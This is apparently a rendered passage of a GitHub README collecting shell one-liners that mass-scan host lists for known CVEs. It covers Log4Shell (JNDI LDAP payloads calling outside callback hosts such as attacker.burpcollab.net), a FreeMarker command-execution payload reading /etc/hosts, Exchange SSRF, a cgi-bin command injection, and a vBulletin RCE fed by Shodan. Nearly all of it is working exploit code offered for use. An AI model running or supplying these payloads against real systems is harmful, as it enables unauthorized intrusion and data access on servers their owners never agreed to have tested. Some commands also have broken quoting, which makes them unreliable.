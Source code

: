 [](https://github.com/0xPugal/One-Liners#cve-2021-44228)

```
cat subs.txt | while read host do; do curl -sk --insecure --path-as-is "$host/?test=${jndi:ldap://log4j.requestcatcher.com/a}" -H "X-Api-Version: ${jndi:ldap://log4j.requestcatcher.com/a}" -H "User-Agent: ${jndi:ldap://log4j.requestcatcher.com/a}";done
```

```
cat urls.txt | sed `s/https:///` | xargs -I {} echo `{}/${jndi:ldap://{}attacker.burpcollab.net}` >> lo4j.txt
```

### CVE-2022-0378:

[](https://github.com/0xPugal/One-Liners#cve-2022-0378)

```
cat URLS.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```

### CVE-2022-22954:

[](https://github.com/0xPugal/One-Liners#cve-2022-22954)

```
cat urls.txt | while read h do ; do curl -sk --path-as-is “$h/catalog-portal/ui/oauth/verify?error=&deviceUdid=${"freemarker.template.utility.Execute"?new()("cat /etc/hosts")}”| grep "context" && echo "$h\033[0;31mV\n"|| echo "$h \033[0;32mN\n";done
```

### CVE-2022-41040:

[](https://github.com/0xPugal/One-Liners#cve-2022-41040)

```
ffuf -w "urls.txt:URL" -u "https://URL/autodiscover/autodiscover.json?@URL/&Email=autodiscover/autodiscover.json%3f@URL" -mr "IIS Web Core" -r
```

---

## RCE:

[](https://github.com/0xPugal/One-Liners#rce)

```
cat targets.txt | httpx -path "/cgi-bin/admin.cgi?Command=sysCommand&Cmd=id" -nc -ports 80,443,8080,8443 -mr "uid=" -silent 
```

### vBulletin 5.6.2

[](https://github.com/0xPugal/One-Liners#vbulletin-562)

```
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```
